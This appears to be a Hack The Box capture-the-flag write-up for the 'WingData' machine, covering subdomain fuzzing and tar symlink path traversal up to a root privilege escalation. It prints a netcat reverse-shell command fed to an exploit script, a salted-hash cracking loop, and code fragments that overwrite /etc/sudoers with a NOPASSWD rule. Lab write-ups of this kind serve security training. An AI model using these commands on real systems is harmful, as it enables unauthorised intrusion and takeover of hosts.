







# 🧠 WingData – Advanced Exploit Research (HTB / CTF)

> A deep-dive security research repository demonstrating **Tar Symlink Path Traversal → Root Privilege Escalation**.
---

# 📌 Executive Summary

| Field                | Value                        |
| -------------------- | ---------------------------- |
| Target               | wingdata.htb                 |
| Vulnerability        | Tar Symlink Path Traversal   |
| Impact               | Arbitrary File Write         |
| Privilege Escalation | Root (via sudoers overwrite) |
| Difficulty           | Easy                       |

---
---

# 🔍 Phase 1 – Reconn & Enumeration



## Subdomain Discovery

```bash
ffuf -u http://wingdata.htb -H "Host: FUZZ.wingdata.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### Key Finding

```
ftp.wingdata.htb
```

---

### Searching Version exploit


### nc - reverseshell cmd
```
python3 52347.py -u http://ftp.wingdata.htb -c "nc x.x.x.x 4444 -e /bin/bash"

```
```
nc -lvnp 4444
```




### ssh (p + salt ) sha256
see ['pass.py'](./wacky.py)
```
import hashlib

target = "32940defd3c3ef------------------------4f8a503ca"

with open("/usr/share/wordlists/rockyou.txt", "r", errors="ignore") as f:
    for line in f:
        pw = line.strip()
        h = hashlib.sha256((pw + "WingFTP").encode()).hexdigest()
        if h == target:
            print("FOUND:", pw)
            break
```
### ssh login with wacky's password

# 🔎 Phase 2 – Foothold Analysis

The system exposes a backup/restore mechanism:

```
/opt/backup_clients/restore_backup_clients.py
```

### Critical Observations

* Runs with **sudo/root privileges**
* Accepts user-controlled `.tar` files
* Uses Python `tarfile.extractall()` (unsafe by default)

---

## ⚠️ Phase 3 – Vulnerability Analysis

## Root Cause: Insecure Tar Extraction

Python's tarfile module is vulnerable when:

* Symlinks are not filtered
* Paths are not validated
* Extraction occurs with elevated privileges

---

## 💥 Phase 4 – Exploit Development

## Exploit Strategy

1. Create deep directory nesting
2. Abuse symlink chaining
3. Escape extraction directory
4. Redirect write into `/etc`
5. Overwrite `sudoers`

---

## 🔬 Exploit Internals

### 1. Directory Depth Trick

```python
comp = 'd' * 247
```

➡️ Forces long path resolution and bypasses naive checks

---

### 2. Symlink Ladder

```python
b.linkname = comp
```

➡️ Each step creates a chained traversal path

---

### 3. Escape Vector

```python
e.linkname = linkpath + "/../../../../../../../etc"
```

➡️ Breaks out of extraction directory

---

### 4. Arbitrary File Write

```python
f.linkname = "escape/sudoers"
```

➡️ Targets `/etc/sudoers`

---

### 5. Privilege Injection

```python
payload = b"wacky ALL=(ALL) NOPASSWD: ALL\n"
```

➡️ Grants full root access

---

# 🛠 Full Exploit

See [`exploit.py`](./backup.py)

---

# 🚀 Phase 5 – Exploitation

```bash
python3 exploit.py
```

### Expected Output

```
root
```

---

# 📸 Evidence

## Exploit Execution

## Root Shell




---

🔥 *If you found this useful, consider adding diagrams, pcap traces, or automation scripts to push it even further.*
